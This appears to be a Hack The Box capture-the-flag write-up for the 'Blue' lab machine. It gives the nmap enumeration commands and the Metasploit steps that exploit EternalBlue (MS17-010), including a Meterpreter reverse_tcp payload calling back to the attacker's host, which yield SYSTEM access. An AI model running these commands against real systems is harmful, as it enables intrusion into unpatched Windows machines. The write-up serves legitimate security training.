 # Blue – Hack The Box Writeup

## Target Info
- IP: 10.129.202.127
- OS: Windows 7 SP1

## 🎯 Goal
Gain NT AUTHORITY\SYSTEM access using the EternalBlue exploit (MS17-010)

## Enumeration:

### Nmap Scan
```bash
nmap -sV -O -oN blue-nmap.txt 10.129.202.127
```
Found open ports : 135,139,445 
OS Fingerprint : Windows 7 SP1
Suspected vulnerabilities: SMB Eternal blue exploit

## Exploitation – MS17-010 (EternalBlue)

### Vulnerability Confirmation
Ran an Nmap vulnerability scan to confirm SMB vulnerability:

```bash
nmap -p445 --script smb-vuln-ms17-010 10.129.202.127
```
afterwards I ran msfconsole and search for module eternalblue
I used this one:
```bash 
use exploit/windows/smb/ms17_010_eternalblue
```
I set the RHOST and the LHOST  set the payload acordinly shown below:
```bash 
set RHOSTS 10.129.202.127
set LHOST 10.10.14.77
set payload windows/x64/meterpreter/reverse_tcp
run
```
Which gave me a reverse shell with meterpreter which then I ran getuid and the results are as follows:

Server username: NT AUTHORITY\SYSTEM

This means no need for privilage escalation methods

## Flags Captured

-  User Flag: **447c.....<REDACTED>**
-  System Flag: **5478....<REDACTED>**

> > Flags were captured successfully and partially shown here for proof of access. Redacted due to HTB rules. 
